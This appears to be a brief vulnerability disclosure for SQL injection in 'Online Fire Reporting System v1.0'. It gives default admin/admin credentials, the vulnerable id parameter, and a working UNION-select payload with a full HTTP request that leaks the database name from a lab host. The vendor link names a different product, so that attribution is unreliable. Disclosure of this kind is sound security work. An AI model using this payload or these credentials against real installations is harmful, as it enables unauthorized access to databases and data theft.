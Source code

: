 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/category/index.php?view=edit&id=

Vulnerability location: /eris/admin/category/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/category/index.php?view=edit&id=-24%27%20union%20select%201,database()--+ // Leak place ---> id

```sql
GET /eris/admin/category/index.php?view=edit&id=-24%27%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849198-b963b9b7-f687-4761-91e5-1883d0b10c36.png)

![image](https://user-images.githubusercontent.com/54017627/170849196-5ebee3d8-e7ac-415d-99c1-8443d94f63ea.png)
